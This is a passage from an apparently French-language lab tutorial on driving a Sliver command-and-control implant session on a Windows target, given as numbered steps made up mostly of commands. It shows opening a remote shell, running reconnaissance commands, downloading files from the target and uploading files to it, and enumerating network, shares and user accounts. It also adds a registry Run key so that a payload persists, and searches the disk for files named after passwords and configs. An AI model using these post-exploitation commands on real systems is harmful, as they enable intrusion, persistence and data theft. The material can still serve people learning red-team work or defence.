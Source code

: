 ### **ÉTAPE 21** : Tests de commandes
```bash
# Exécuter une commande shell
shell

# Dans le shell (Windows) :
dir C:\Users
whoami /all
systeminfo
exit
```

### **ÉTAPE 22** : Transfert de fichiers
```bash
# Télécharger un fichier depuis la cible
download C:\Windows\System32\drivers\etc\hosts /tmp/hosts_target

# Uploader un fichier vers la cible
upload /etc/passwd C:\temp\passwd.txt
```

---

## 🔍 PHASE 8 : TECHNIQUES AVANCÉES

### **ÉTAPE 23** : Énumération réseau
```bash
# Depuis la session Silver
execute ipconfig /all
execute netstat -an
execute net view
execute net user
```

### **ÉTAPE 24** : Persistence (TEST UNIQUEMENT)
```bash
# Créer une entrée de registre pour persistence
execute reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "TestApp" /t REG_SZ /d "C:\temp\payload.exe"
```

### **ÉTAPE 25** : Recherche de fichiers sensibles
```bash
# Chercher des fichiers intéressants
execute dir C:\ /s /b | findstr /i password
execute dir C:\ /s /b | findstr /i config
execute dir C:\Users\%USERNAME%\Desktop /b
```

---

## 🧹 PHASE 9 : NETTOYAGE
